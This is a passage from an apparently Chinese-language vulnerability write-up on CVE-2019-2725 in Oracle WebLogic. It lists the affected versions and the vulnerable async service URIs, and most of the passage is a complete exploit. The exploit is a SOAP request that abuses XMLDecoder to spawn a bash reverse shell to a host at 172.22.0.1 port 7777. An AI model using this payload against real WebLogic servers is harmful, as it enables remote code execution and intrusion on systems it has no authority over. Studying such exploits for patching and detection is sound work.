 使用黑名单对上述标签进行了过滤

### 2.5 CVE-2019-2725 分析

**影响范围**：  
WebLogic 10.X  
WebLogic 12.1.3  
**影响 uri**：

```plain
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
/_async/AsyncResponseServiceSoap12
/_async/AsyncResponseServiceSoap12Jms
/_async/AsyncResponseServiceSoap12Https
```

**复现**：  
exp：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:wsa="http://www.w3.org/2005/08/addressing"
                  xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action>xx</wsa:Action>
        <wsa:RelatesTo>xx</wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```

